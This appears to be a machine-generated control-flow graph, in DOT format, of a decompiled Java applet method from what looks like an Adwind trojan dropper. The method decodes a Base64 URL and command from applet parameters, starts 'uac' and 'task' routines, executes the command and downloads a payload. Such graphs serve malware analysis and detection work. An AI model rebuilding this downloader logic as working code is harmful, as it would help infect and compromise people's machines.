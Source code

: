 digraph "" {
    "r0 := @this: Principal"
    "store.r $r6"
    "r0 := @this: Principal"->"store.r $r6";
    "push class \"LPrincipal;\""
    "store.r $r6"->"push class \"LPrincipal;\"";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"
    "push class \"LPrincipal;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "push null"
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "load.r $r6"
    "push null"->"load.r $r6";
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"
    "load.r $r6"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "goto new Principal$1"
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"->"goto new Principal$1";
    "new Principal$1"
    "goto new Principal$1"->"new Principal$1";
    "dup1.r"
    "new Principal$1"->"dup1.r";
    "load.r r0"
    "dup1.r"->"load.r r0";
    "specialinvoke <Principal$1: void <init>(Principal)>"
    "load.r r0"->"specialinvoke <Principal$1: void <init>(Principal)>";
    "staticinvoke <java.awt.EventQueue: void invokeAndWait(java.lang.Runnable)>"
    "specialinvoke <Principal$1: void <init>(Principal)>"->"staticinvoke <java.awt.EventQueue: void invokeAndWait(java.lang.Runnable)>";
    "goto load.r r0"
    "staticinvoke <java.awt.EventQueue: void invokeAndWait(java.lang.Runnable)>"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "push \"url\""
    "load.r r0"->"push \"url\"";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"
    "push \"url\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "new java.lang.String"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"store.r $r6";
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"
    "store.r $r6"->"staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>";
    "store.r $r7"
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"->"store.r $r7";
    "store.r $r7"->"load.r $r6";
    "load.r $r7"
    "load.r $r6"->"load.r $r7";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r $r7"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r0";
    "push \"extension\""
    "load.r r0"->"push \"extension\"";
    "push \"extension\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "store.r i1"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r i1";
    "store.r i1"->"load.r r0";
    "push \"prefijo\""
    "load.r r0"->"push \"prefijo\"";
    "push \"prefijo\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "store.r r42"
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r42";
    "store.r r42"->"load.r r0";
    "push \"comando\""
    "load.r r0"->"push \"comando\"";
    "push \"comando\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"new java.lang.String";
    "new java.lang.String"->"store.r $r7";
    "store.r $r7"->"staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>";
    "store.r r2"
    "staticinvoke <com.sun.org.apache.xerces.internal.impl.dv.util.Base64: byte[] decode(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r $r7";
    "load.r r2"
    "load.r $r7"->"load.r r2";
    "load.r r2"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"load.r r0";
    "push \"uac\""
    "load.r r0"->"push \"uac\"";
    "push \"uac\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"load.r r0";
    "push \"task\""
    "load.r r0"->"push \"task\"";
    "push \"task\""->"virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Principal: java.lang.String getParameter(java.lang.String)>"->"store.r r2";
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"
    "store.r r2"->"staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>";
    "store.b r0"
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"->"store.b r0";
    "store.b r0"->"load.r r2";
    "load.r r2"->"staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>";
    "store.b r2"
    "staticinvoke <java.lang.Boolean: boolean parseBoolean(java.lang.String)>"->"store.b r2";
    "new uac"
    "store.b r2"->"new uac";
    "new uac"->"dup1.r";
    "load.b r0"
    "dup1.r"->"load.b r0";
    "specialinvoke <uac: void <init>(boolean)>"
    "load.b r0"->"specialinvoke <uac: void <init>(boolean)>";
    "virtualinvoke <uac: void start()>"
    "specialinvoke <uac: void <init>(boolean)>"->"virtualinvoke <uac: void start()>";
    "new task"
    "virtualinvoke <uac: void start()>"->"new task";
    "new task"->"dup1.r";
    "load.b r2"
    "dup1.r"->"load.b r2";
    "specialinvoke <task: void <init>(boolean)>"
    "load.b r2"->"specialinvoke <task: void <init>(boolean)>";
    "virtualinvoke <task: void start()>"
    "specialinvoke <task: void <init>(boolean)>"->"virtualinvoke <task: void start()>";
    "virtualinvoke <task: void start()>"->"load.r $r7";
    "virtualinvoke <java.lang.String: boolean isEmpty()>"
    "load.r $r7"->"virtualinvoke <java.lang.String: boolean isEmpty()>";
    "ifne new Adwind"
    "virtualinvoke <java.lang.String: boolean isEmpty()>"->"ifne new Adwind";
    "ifne new Adwind"->"load.r $r7";
    "virtualinvoke <java.lang.String: java.lang.String trim()>"
    "load.r $r7"->"virtualinvoke <java.lang.String: java.lang.String trim()>";
    "staticinvoke <Tools: void execute(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String trim()>"->"staticinvoke <Tools: void execute(java.lang.String)>";
    "new Adwind"
    "staticinvoke <Tools: void execute(java.lang.String)>"->"new Adwind";
    "new Adwind"->"dup1.r";
    "dup1.r"->"load.r $r6";
    "new java.lang.StringBuilder"
    "load.r $r6"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \".\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \".\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r i1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r i1";
    "load.r i1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "load.r r42"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r42";
    "specialinvoke <Adwind: void <init>(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r42"->"specialinvoke <Adwind: void <init>(java.lang.String,java.lang.String,java.lang.String)>";
    "virtualinvoke <Adwind: void Download()>"
    "specialinvoke <Adwind: void <init>(java.lang.String,java.lang.String,java.lang.String)>"->"virtualinvoke <Adwind: void Download()>";
    "return"
    "virtualinvoke <Adwind: void Download()>"->"return";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "staticinvoke <java.awt.EventQueue: void invokeAndWait(java.lang.Runnable)>"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "r0 := @this: Principal"->"store.r $r6";
    "store.r $r6"->"push class \"LPrincipal;\"";
    "push class \"LPrincipal;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "push null"->"load.r $r6";
    "load.r $r6"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"->"goto new Principal$1";
    "r0 := @this: Principal"->"store.r $r6";
    "store.r $r6"->"push class \"LPrincipal;\"";
    "push class \"LPrincipal;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "push null"->"load.r $r6";
    "load.r $r6"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>"->"goto new Principal$1";
    "r0 := @this: Principal"->"store.r $r6";
    "store.r $r6"->"push class \"LPrincipal;\"";
    "push class \"LPrincipal;\""->"virtualinvoke <java.lang.Class: java.lang.String getName()>";
    "virtualinvoke <java.lang.Class: java.lang.String getName()>"->"staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>";
    "staticinvoke <java.util.logging.Logger: java.util.logging.Logger getLogger(java.lang.String)>"->"staticget <java.util.logging.Level: java.util.logging.Level SEVERE>";
    "staticget <java.util.logging.Level: java.util.logging.Level SEVERE>"->"push null";
    "push null"->"load.r $r6";
    "load.r $r6"->"virtualinvoke <java.util.logging.Logger: void log(java.util.logging.Level,java.lang.String,java.lang.Throwable)>";
    "staticinvoke <javax.swing.UIManager: javax.swing.UIManager$LookAndFeelInfo[] getInstalledLookAndFeels()>"
    "r0 := @this: Principal"->"staticinvoke <javax.swing.UIManager: javax.swing.UIManager$LookAndFeelInfo[] getInstalledLookAndFeels()>";
    "staticinvoke <javax.swing.UIManager: javax.swing.UIManager$LookAndFeelInfo[] getInstalledLookAndFeels()>"->"store.r $r6";
    "store.r $r6"->"load.r $r6";
    "arraylength"
    "load.r $r6"->"arraylength";
    "store.i $r7"
    "arraylength"->"store.i $r7";
    "push 0"
    "store.i $r7"->"push 0";
    "store.i i1"
    "push 0"->"store.i i1";
    "load.i i1"
    "store.i i1"->"load.i i1";
    "load.i $r7"
    "load.i i1"->"load.i $r7";
    "ifcmpge.i goto new Principal$1"
    "load.i $r7"->"ifcmpge.i goto new Principal$1";
    "ifcmpge.i goto new Principal$1"->"load.r $r6";
    "load.r $r6"->"load.i i1";
    "arrayread.r"
    "load.i i1"->"arrayread.r";
    "arrayread.r"->"store.r r42";
    "push \"Nimbus\""
    "store.r r42"->"push \"Nimbus\"";
    "push \"Nimbus\""->"load.r r42";
    "virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getName()>"
    "load.r r42"->"virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getName()>";
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"
    "virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getName()>"->"virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>";
    "ifeq inc.i i1 1"
    "virtualinvoke <java.lang.String: boolean equals(java.lang.Object)>"->"ifeq inc.i i1 1";
    "ifeq inc.i i1 1"->"load.r r42";
    "virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getClassName()>"
    "load.r r42"->"virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getClassName()>";
    "staticinvoke <javax.swing.UIManager: void setLookAndFeel(java.lang.String)>"
    "virtualinvoke <javax.swing.UIManager$LookAndFeelInfo: java.lang.String getClassName()>"->"staticinvoke <javax.swing.UIManager: void setLookAndFeel(java.lang.String)>";
    "goto goto new Principal$1"
    "staticinvoke <javax.swing.UIManager: void setLookAndFeel(java.lang.String)>"->"goto goto new Principal$1";
    "goto goto new Principal$1"->"goto new Principal$1";
    "inc.i i1 1"
    "ifeq inc.i i1 1"->"inc.i i1 1";
    "goto load.i i1"
    "inc.i i1 1"->"goto load.i i1";
}
